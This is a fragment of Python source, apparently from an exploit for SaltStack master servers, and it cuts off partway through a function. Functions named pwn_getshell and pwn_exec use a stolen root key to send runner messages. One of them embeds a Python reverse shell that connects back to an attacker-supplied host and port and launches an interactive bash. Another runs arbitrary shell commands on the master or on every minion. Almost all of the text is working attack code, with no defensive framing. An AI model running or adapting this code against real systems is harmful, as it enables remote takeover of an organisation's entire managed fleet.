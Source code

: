 ```python

    rets = channel.send(msg, timeout=3)
    print(rets['data']['return'][0][path])



def pwn_getshell(channel, root_key, LHOST, LPORT):
    msg = {"key": root_key,
           "cmd": "runner",
           'fun': 'salt.cmd',
           "kwarg": {
               "fun": "cmd.exec_code",
               "lang": "python3",
               "code": "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"{}\",{}));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/bash\",\"-i\"]);".format(
                   LHOST, LPORT)
           },
           'jid': '20200504042611133934',
           'user': 'sudo_user',
           '_stamp': '2020-05-04T04:26:13.609688'}

    try:
        response = channel.send(msg, timeout=3)
        print("Got response for attempting master shell: " + str(response) + ". Looks promising!")
        return True
    except:
        print("something failed")
        return False


def pwn_exec(channel, root_key, exec_cmd, master_or_minions):
    if master_or_minions == "master":
        msg = {"key": root_key,
               "cmd": "runner",
               'fun': 'salt.cmd',
               "kwarg": {
                   "fun": "cmd.exec_code",
                   "lang": "python3",
                   "code": "import subprocess;subprocess.call('{}',shell=True)".format(exec_cmd)
               },
               'jid': '20200504042611133934',
               'user': 'sudo_user',
               '_stamp': '2020-05-04T04:26:13.609688'}

        try:
            response = channel.send(msg, timeout=3)
            print("Got response for attempting master shell: " + str(response) + ". Looks promising!")
            return True
        except:
            print("something failed")
            return False

    if master_or_minions == "minions":
        print("Sending command to all minions on master")
        jid = "{0:%Y%m%d%H%M%S%f}".format(datetime.datetime.utcnow())
        cmd = "/bin/sh -c '{0}'".format(exec_cmd)

        msg = {'cmd': "_send_pub", "fun": "cmd.run", "arg": [cmd], "tgt": "*", "ret": "", "tgt_type": "glob",
               "user": "root", "jid": jid}

```